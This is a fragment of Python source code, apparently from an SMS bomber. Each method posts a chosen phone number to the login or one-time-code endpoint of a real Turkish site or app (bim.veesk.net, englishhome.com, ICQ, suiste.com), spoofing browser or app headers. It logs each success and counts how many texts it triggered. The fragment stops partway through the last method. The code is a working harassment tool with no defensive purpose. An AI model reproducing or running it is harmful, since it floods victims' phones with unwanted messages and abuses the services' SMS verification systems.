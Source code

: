     
    #bim
    def Bim(self):
        try:
            bim = requests.post("https://bim.veesk.net:443/service/v1.0/account/login",  json={"phone": self.phone}, timeout=6)
            if bim.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> bim.veesk.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> bim.veesk.net")


    #englishhome.com
    def Englishhome(self):
        try:
            url = "https://www.englishhome.com:443/api/member/sendOtp"
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://www.englishhome.com/", "Content-Type": "application/json", "Origin": "https://www.englishhome.com", "Dnt": "1", "Sec-Gpc": "1", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "Te": "trailers"}
            json={"Phone": "+90"+self.phone}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["isError"] == False:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> englishhome.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> englishhome.com")
            

    #icq.net
    def Icq(self):
        try:
            url = f"https://u.icq.net:443/api/v90/smsreg/requestPhoneValidation.php?client=icq&f=json&k=gu19PNBblQjCdbMU&locale=en&msisdn=%2B90{self.phone}&platform=ios&r=796356153&smsFormatType=human"
            headers = {"Accept": "*/*", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "ICQ iOS #no_user_id# gu19PNBblQjCdbMU 23.1.1(124106) 15.7.7 iPhone9,4", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate"}
            r = requests.post(url, headers=headers, timeout=6)
            if r.json()["response"]["statusCode"] == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> u.icq.net")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> u.icq.net")
          

    #suiste.com
    def Suiste(self):
        try:
            url = "https://suiste.com:443/api/auth/code"
            headers = {"Accept": "application/json", "Content-Type": "application/x-www-form-urlencoded; charset=utf-8", "Accept-Encoding": "gzip, deflate", "Mobillium-Device-Id": "56DB9AC4-F52B-4DF1-B14C-E39690BC69FC", "User-Agent": "suiste/1.6.16 (com.mobillium.suiste; build:1434; iOS 15.7.7) Alamofire/5.6.4", "Accept-Language": "en"}
            data = {"action": "register", "gsm": self.phone}
            r = requests.post(url, headers=headers, data=data, timeout=6)
            if r.json()["code"] == "common.success":
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> suiste.com")
                self.adet += 1
            else: